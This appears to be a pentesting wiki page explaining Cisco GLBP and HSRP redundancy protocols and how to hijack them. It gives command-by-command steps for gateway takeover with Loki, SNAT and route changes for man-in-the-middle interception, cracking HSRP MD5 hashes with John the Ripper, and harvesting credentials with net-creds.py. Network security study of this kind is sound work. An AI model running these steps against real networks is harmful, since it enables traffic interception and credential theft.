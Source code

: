 **FHRP Hijacking Overview**

***Insights into FHRP***

FHRP is designed to provide network robustness by merging multiple routers into a single virtual unit, thereby enhancing load distribution and fault tolerance. Cisco Systems introduced prominent protocols in this suite, such as GLBP and HSRP.

**GLBP Protocol Insights**

Cisco's creation, GLBP, functions on the TCP/IP stack, utilizing UDP on port 3222 for communication. Routers in a GLBP group exchange "hello" packets at 3-second intervals. If a router fails to send these packets for 10 seconds, it is presumed to be offline. However, these timers are not fixed and can be modified.

**GLBP Operations and Load Distribution**

GLBP stands out by enabling load distribution across routers using a single virtual IP coupled with multiple virtual MAC addresses. In a GLBP group, every router is involved in packet forwarding. Unlike HSRP/VRRP, GLBP offers genuine load balancing through several mechanisms:

 ✿ **Host-Dependent Load Balancing:** Maintains consistent AVF MAC address assignment to a host, essential for stable NAT configurations.

 ✿ **Round-Robin Load Balancing:** The default approach, alternating AVF MAC address assignment among requesting hosts.

 ✿ **Weighted Round-Robin Load Balancing:** Distributes load based on predefined "Weight" metrics.

**Key Components and Terminologies in GLBP**

 ✿ **AVG (Active Virtual Gateway):** The main router, responsible for allocating MAC addresses to peer routers.

 ✿ **AVF (Active Virtual Forwarder):** A router designated to manage network traffic.

 ✿ **GLBP Priority:** A metric that determines the AVG, starting at a default of 100 and ranging between 1 and 255.

 ✿ **GLBP Weight:** Reflects the current load on a router, adjustable either manually or through Object Tracking.

 ✿ **GLBP Virtual IP Address:** Serves as the network's default gateway for all connected devices.

For interactions, GLBP employs the reserved multicast address 224.0.0.102 and UDP port 3222. Routers transmit "hello" packets at 3-second intervals, and are considered non-operational if a packet is missed over a 10-second duration.

**GLBP Attack Mechanism**
An attacker can become the primary router by sending a GLBP packet with the highest priority value (255). This can lead to DoS or MITM attacks, allowing traffic interception or redirection.

**Executing a GLBP Attack with Loki**
Loki can perform a GLBP attack by injecting a packet with priority and weight set to 255. Pre-attack steps involve gathering information like the virtual IP address, authentication presence, and router priority values using tools like Wireshark.

Attack Steps:

1. Switch to promiscuous mode and enable IP forwarding.

2. Identify the target router and retrieve its IP.

3. Generate a Gratuitous ARP.

4. Inject a malicious GLBP packet, impersonating the AVG.

5. Assign a secondary IP address to the attacker's network interface, mirroring the GLBP virtual IP.

6. Implement SNAT for complete traffic visibility.

Adjust routing to ensure continued internet access through the original AVG router.

By following these steps, the attacker positions themselves as a "man in the middle," capable of intercepting and analyzing network traffic, including unencrypted or sensitive data.

For demonstration, here are the required command snippets:

Copy
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
Monitoring and intercepting traffic can be done using net-creds.py or similar tools to capture and analyze data flowing through the compromised network.

Passive Explanation of HSRP Hijacking with Command Details
Overview of HSRP (Hot Standby Router/Redundancy Protocol)
HSRP is a Cisco proprietary protocol designed for network gateway redundancy. It allows the configuration of multiple physical routers into a single logical unit with a shared IP address. This logical unit is managed by a primary router responsible for directing traffic. Unlike GLBP, which uses metrics like priority and weight for load balancing, HSRP relies on a single active router for traffic management.

Roles and Terminology in HSRP
HSRP Active Router: The device acting as the gateway, managing traffic flow.

HSRP Standby Router: A backup router, ready to take over if the active router fails.

HSRP Group: A set of routers collaborating to form a single resilient virtual router.

HSRP MAC Address: A virtual MAC address assigned to the logical router in the HSRP setup.

HSRP Virtual IP Address: The virtual IP address of the HSRP group, acting as the default gateway for connected devices.

HSRP Versions
HSRP comes in two versions, HSRPv1 and HSRPv2, differing mainly in group capacity, multicast IP usage, and virtual MAC address structure. The protocol utilizes specific multicast IP addresses for service information exchange, with Hello packets sent every 3 seconds. A router is presumed inactive if no packet is received within a 10-second interval.

HSRP Attack Mechanism
HSRP attacks involve forcibly taking over the Active Router's role by injecting a maximum priority value. This can lead to a Man-In-The-Middle (MITM) attack. Essential pre-attack steps include gathering data about the HSRP setup, which can be done using Wireshark for traffic analysis.

Steps for Bypassing HSRP Authentication
Save the network traffic containing HSRP data as a .pcap file.

Copy
tcpdump -w hsrp_traffic.pcap
Extract MD5 hashes from the .pcap file using hsrp2john.py.

Copy
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
Crack the MD5 hashes using John the Ripper.

Copy
john --wordlist=mywordlist.txt hsrp_hashes
Executing HSRP Injection with Loki

Launch Loki to identify HSRP advertisements.

Set the network interface to promiscuous mode and enable IP forwarding.

Copy
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
Use Loki to target the specific router, input the cracked HSRP password, and perform necessary configurations to impersonate the Active Router.

After gaining the Active Router role, configure your network interface and IP tables to intercept the legitimate traffic.

Copy
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
Modify the routing table to route traffic through the former Active Router.

Copy
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
Use net-creds.py or a similar utility to capture credentials from the intercepted traffic.

Copy
sudo python2 net-creds.py -i eth0
Executing these steps places the attacker in a position to intercept and manipulate traffic, similar to the procedure for GLBP hijacking. This highlights the vulnerability in redundancy protocols like HSRP and the need for robust security measures.

References
https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9

